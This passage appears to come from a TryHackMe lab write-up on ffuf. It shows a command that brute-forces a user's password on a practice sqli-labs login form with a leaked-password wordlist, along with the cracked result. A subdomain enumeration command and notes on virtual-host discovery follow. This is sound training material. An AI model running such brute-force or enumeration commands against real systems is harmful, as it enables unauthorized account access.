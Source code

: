 ### 5.3

What is Dummy's password?

```bash
# ffuf -u http://10.10.71.46/sqli-labs/Less-11/ -c -w Tools/wordlists/SecLists/Passwords/Leaked-Databases/hak5.txt -X POST -d 'uname=Dummy&passwd=FUZZ&submit=Submit' -fs 1435 -H 'Content-Type: application/x-www-form-urlencoded'

        /'___\  /'___\           /'___\       
       /\ \__/ /\ \__/  __  __  /\ \__/       
       \ \ ,__\\ \ ,__\/\ \/\ \ \ \ ,__\      
        \ \ \_/ \ \ \_/\ \ \_\ \ \ \ \_/      
         \ \_\   \ \_\  \ \____/  \ \_\       
          \/_/    \/_/   \/___/    \/_/       

       v1.3.1
________________________________________________
p@ssword                [Status: 200, Size: 1526, Words: 100, Lines: 50]
:: Progress: [2351/2351] :: Job [1/1] :: 3743 req/sec :: Duration: [0:00:04] :: Errors: 0 ::
________________________________________________
```

---

<script async src="https://pagead2.googlesyndication.com/pagead/js/adsbygoogle.js"></script>
<ins class="adsbygoogle"
     style="display:block; text-align:center;"
     data-ad-layout="in-article"
     data-ad-format="fluid"
     data-ad-client="ca-pub-3526678290068011"
     data-ad-slot="7160066188"></ins>
<script>
     (adsbygoogle = window.adsbygoogle || []).push({});
</script>


---

## task 06: Finding vhosts and subdomains

ffuf may not be as efficient as specialized tools when it comes to subdomain enumeration but it's possible to do.

> Command for Q1
>  
> `$ ffuf -u http://FUZZ.tryhackme.com -c -w /usr/share/seclists/Discovery/DNS/subdomains-top1million-5000.txt`

Some subdomains might not be resolvable by the DNS server you're using and are only resolvable from within the target's local network by their private DNS servers. So some virtual hosts (vhosts) may exist with private subdomains so the previous command doesn't find them. To try finding private subdomains we'll have to use the Host HTTP header as these requests might be accepted by the web server.
Note: virtual hosts (vhosts) is the name used by Apache httpd but for Nginx the right term is Server Blocks
